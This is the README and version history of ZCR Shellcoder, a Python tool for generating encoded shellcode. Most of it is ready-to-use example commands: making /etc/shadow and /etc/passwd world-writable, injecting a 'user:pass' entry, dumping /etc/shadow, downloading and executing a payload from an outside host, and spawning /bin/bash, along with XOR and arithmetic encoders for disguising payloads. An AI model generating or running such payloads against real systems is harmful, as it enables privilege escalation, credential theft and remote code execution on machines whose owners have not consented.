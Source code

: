 ZCR Shellcoder is an open source software in python language which lets you 
generate customized  shellcodes for listed operation systems. This software 
can be run on Windows/Linux&Unix/OSX and others OS under python 2.7.x.

Home: http://zsc.z3r0d4y.com/
Features: http://zsc.z3r0d4y.com/table.html
Github: https://github.com/Ali-Razmjoo/ZCR-Shellcoder
Archive: https://github.com/Ali-Razmjoo/ZCR-Shellcoder-Archive
About Author: http://www.z3r0d4y.com/p/about.html

for more information read the document files in main directory or visit home page.


Usages And Changes:
==
version 1.0.5.1: CaMo
----
upgrade "-wizard" switch
------
add length calculator for output
------
add filename writer in gcc commandline in output file
fixed bug in encoding module not available.
fixed bug in os module not available


==
version 1.0.5: CaMo
----
add "-wizard" switch
add installer "use 'zsc' commandline in terminal after installed"
add uninstaller 
This Software just could be run on linux since this version
change output to .c file and automated shellcode generating
add color output for terminal
etc ...

version 1.0.4.1: Infinity
----
bug fix reported by user in executing on linux , color function

version 1.0.4: Infinity
----
add inc encoding chmod() [linux_x86]
add inc_timesyouwant chmod() [linux_x86]
add dec encoding chmod() [linux_x86]
add dec_timesyouwant chmod() [linux_x86]
add features table inside "features_table.html"
add -about to menu for developers name and etc
add color output for windows cmd
fixed permission number calculating in chmod() [linux_x86]
software's signature changes

Examples:
>python shellcoder.py -os linux_x86 -encode inc -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode inc_10 -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec_30 -job chmod('/etc/passwd','777') -o file

Note: you also can use high value for inc and dec time, like inc_100000, your shellcode may get too big


version 1.0.3: AWAKE
----
add xor_random encoding chmod() [linux_x86]
add xor_yourvalue encoding chmod() [linux_x86]
add add_random encoding chmod() [linux_x86]
add add_yourvalue encoding chmod() [linux_x86]
add sub_random encoding chmod() [linux_x86]
add sub_yourvalue encoding chmod() [linux_x86]
fixed shellcode encode type checking

Examples: 
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/passwd','444') -o file.txt

Note: each time you execute chmod() function with random encode, you are gonna get random outputs and different shellcode.

>python shellcoder.py -os linux_x86 -encode xor_0x41414141 -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_0x45872f4d -job chmod('/etc/passwd','444') -o file.txt

Note: your xor value could be anything. "xor_0x41414141" and "xor_0x45872f4d" are examples.

>python shellcoder.py -os linux_x86 -encode add_random -job chmod('/etc/passwd','444') -o file.txt
>python shellcoder.py -os linux_x86 -encode add_0x41414141 -job chmod('/etc/passwd','777') -o file.txt


>python shellcoder.py -os linux_x86 -encode sub_random -job chmod('/etc/passwd','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode sub_0x41414141 -job chmod('/etc/passwd','444') -o file.txt



version 1.0.2: SKIP
----
[linux_x86 modules completed]
add script_executor() [linux - using command execution]
add download_execute() [linux_x86 - using command execution (wget)]  
add download() [linux_x86 - using command execution (wget)] 
add dir_create() [linux_x86 using command execution] 
add file_create() [linux_x86 using command execution]
add encodes file for next version released

Examples:
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello.txt','hello') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello2.txt','hello[space]world[space]!') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job dir_create('/root/Desktop/mydirectory') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download('http://www.z3r0d4y.com/exploit.type','myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type') -o file.txt

#multi command
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','chmod[space]777[space]myfile.type;sh[space]myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('script.type','D:\\myfile.type','./script.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('z3r0d4y.sh','/root/z3r0d4y.sh','sh[space]z3r0d4y.sh') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('ali.py','/root/Desktop/0day.py','chmod[space]+x[space]ali.py;[space]python[space]ali.py') -o file.txt

Note: Remember don't use " " and replace it with "[space]"
Note: script_executor(),download_execute(),download(),dir_create(),file_create() are using linux command line , not the function. [wget,mkdir,echo]


version 1.0.1: BOILING_POINT
----
add system() [linux_x86 command execute]
fixed chmod filename 1/4 char length [linux_x86]
fixed exec filename 1/4 char length [linux_x86]
fixed write filename 1/4 length [linux_x86]
fixed write content 1/4 length [linux_x86]
fixed write length calculator [linux_x86]
and fixed some other bugs in coding [core]

Examples:

system() function added in script, you can use it to do anything and generate any command line shellcode.
Note: Don't use space ' ' in system() function, replace it with "[space]" , software will detect and replace " " for you in shellcode.

>python shellcoder.py -os linux_x86 -encode none -job system('ls') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('wget[space]file;sh[space]file') -o file.txt


version 1.0.0: ASIIN_BLUE_RUBY
----
add chmod() [linux_x86] -> chmod('/path/file','perm_num')
add write() [linux_x86] -> write('/path/file','content')
add exec() [linux_x86]  -> exec('/path/file')
add encode [none - all os] 

Examples:

>python shellcoder.py -h 

Switches:
-h, --h, -help, --help => to see this help guide
-os => choose your os to create shellcode
-oslist => list os for switch -os
-o => output filename
-job => what shellcode gonna do for you ?
-joblist => list of -job switch
-encode => generate shellcode with encode
-types => types of encode for -encode switch

-update => check for update

>python shellcoder.py -oslist

[+] linux_x86
[+] linux_x64
[+] linux_arm
[+] linux_mips
[+] freebsd_x86
[+] freebsd_x64
[+] windows_x86
[+] windows_x64
[+] osx
[+] solaris_x86
[+] solaris_x64

>python shellcoder.py -joblist

[+] exec('/path/file')
[+] chmod('/path/file','permission number')
[+] write('/path/file','text to write')
[+] file_create('/path/file','text to write')
[+] dir_create('/path/folder')
[+] download('url','filename')
[+] download_execute('url','filename','command to execute')
[+] system('command to execute')
[+] script_executor('name of script','path and name of your script in your pc','execute command')


>python shellcoder.py -types

[+] none
[+] xor_random
[+] xor_yourvalue
[+] add_random
[+] add_yourvalue
[+] sub_random
[+] sub_yourvalue
[+] inc
[+] inc_timesyouwant
[+] dec
[+] dec_timesyouwant
[+] mix_all


Generating shellcodes , using functions:
>python shellcoder.py -os linux_x86 -encode none -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job write('/etc/passwd','user:pass') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job exec('/bin/bash') -o file.txt

Note: exec() doesn't support any ARGV same as exec('/bin/bash -c ls') or exec('/bin/bash','-c','ls'), you have to wait for next version and this feature will available  in system()
